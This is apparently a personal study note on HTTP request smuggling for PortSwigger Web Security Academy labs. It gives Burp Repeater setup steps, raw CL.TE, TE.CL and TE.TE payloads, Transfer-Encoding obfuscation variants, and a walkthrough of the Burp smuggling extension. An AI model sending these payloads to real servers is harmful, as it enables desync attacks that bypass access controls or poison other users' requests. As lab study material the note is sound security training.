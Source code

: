 # Switch Burp Repeater to HTTP/1
Manually switch protocols in **Burp Repeater -> Inspector Panel -> Request attributes section**
# Performing the Attack
## Preparing Burp for Request Smuggling
1. Find request for root page and send to Repeater
2. Downgrade HTTP protocol to HTTP/1.1 (Inspector tab on right)
3. Change Request Method to POST by right-clicking
4. Disable automatic update of Content-Length (settings icon next to 'Send')
5. Show non-printable characters (option at top-right of Request section)
6. Send the request normally to ensure it is properly working

## Detecting the Vulnerability
![[Pasted image 20250501090652.png]]
## Confirming the Vulnerability
![[Pasted image 20250501090918.png]]
- Send the request twice, and the first should be status 200, and second status 403 forbidden
- Ensure there are two `\r\n` after the end of the second request
### CL.TE Example
```
POST / HTTP/1.1 
Host: host.website.here.com
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 6 
Transfer-Encoding: chunked 

0 

G
```
- Send it twice
- The second response should say: `Unrecognized method GPOST`.
### TE.CL Example
```
POST / HTTP/1.1

Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0


```
- Ensure `\r\n\` is showing twice after the final `0`
- Send it twice and the second response should say: `Unrecognized method GPOST`.
## TE.TE
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space] Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-Encoding: chunked
Transfer-Encoding: cow
```
- Necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
- Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL
- Ensure there are two `\r\n` after the `0` of the second request

Example Request to send a `GPOST` request:
```
POST / HTTP/1.1
Host: 0a9900a6047482318574918700b40052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
# Burp Smuggling Extension
For more advanced use watch the [video](https://portswigger.net/research/http-desync-attacks), and check out the [documentation](https://github.com/PortSwigger/http-request-smuggler).
1. Right click on a request and click 'Launch Smuggle probe'
2. Ensure 'permute: badsetupLF' is checked
3. Go to 'Target' tab of Burp (at the top)
4. Select the site you are querying
5. Go to the 'Contents' section of this site to see all requests
6. Go to the 'Issues' section to view any issues
7. Select 'Request 1' to see the issue with the first request
8. Right-click the request and select 'Smuggle attack'
9. A new window will pop up. If you scroll down, you'll see the `GET /hopefull404 HTTP/1.1` request
10. Select 'Attack' button at the bottom
11. Observe the 404 error, and a 200 status request previously with the payload in the data, click 'Halt' at the bottom to pause, then 'Configure' to exit
12. We can go back to the window where we saw the `GET` request section, and we can replace that with any other request we want
	- We can intercept other `GET` requests from other pages, go back to our smuggle request, and paste other `GET` requests into this section (only paste the `GET` and `HOST` section, and keep the `X-ignore` header when pasting)
13. We click 'Attack' again, and we can observe the request was successful
